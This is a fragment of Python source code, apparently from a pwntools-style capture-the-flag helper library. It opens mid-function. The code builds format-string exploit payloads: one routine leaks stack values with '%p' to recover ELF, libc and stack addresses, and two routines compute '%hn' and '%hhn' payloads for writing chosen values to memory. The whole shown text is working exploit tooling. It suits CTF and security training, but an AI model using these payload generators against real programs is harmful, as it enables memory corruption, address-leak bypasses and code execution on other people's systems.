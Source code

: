 ```python
        count,
        elf_idx=-1,
        libc_idx=-1,
        stack_idx=-1,
        separater=b".",
        new_line=True,
        identify=b"^",
    ):
        payload = identify + (b"%p" + separater) * count
        if new_line:
            payload += b"\n"
        s(payload)
        ru(identify)
        res = {}
        for i in range(count):
            temp_res = ru(separater, drop=True)
            if b"nil" in temp_res:
                continue
            temp_res = int(temp_res, 16)
            lg("temp_res", temp_res)
            if i == elf_idx:
                res["elf"] = temp_res
                lg_suc("addr_in_elf", temp_res)
            elif i == libc_idx:
                res["libc"] = temp_res
                lg_suc("addr_in_libc", temp_res)
            elif i == stack_idx:
                res["stack"] = temp_res
                lg_suc("addr_in_stack", temp_res)
        return res

    def generate_hn_payload(self, distance, hn_data):
        hn_data = hn_data & 0xFFFF
        offset = (distance // 8) + 6
        if hn_data > self.current_n:
            temp = hn_data - self.current_n
        elif hn_data < self.current_n:
            temp = 0x10000 - self.current_n + hn_data
        elif hn_data == self.current_n:
            return b"%" + i2b(offset) + b"hn"
        self.current_n = hn_data
        return b"%" + i2b(temp) + b"c%" + i2b(offset) + b"$hn"

    def generate_hhn_payload(self, distance, hhn_data):
        hhn_data = hhn_data & 0xFF
        offset = (distance // 8) + 6
        if hhn_data > self.current_n:
            temp = hhn_data - self.current_n
        elif hhn_data < self.current_n:
            temp = 0x100 - self.current_n + hhn_data
        elif hhn_data == self.current_n:
            return b"%" + i2b(offset) + b"hhn"
        self.current_n = hhn_data
        return b"%" + i2b(temp) + b"c%" + i2b(offset) + b"$hhn"
```
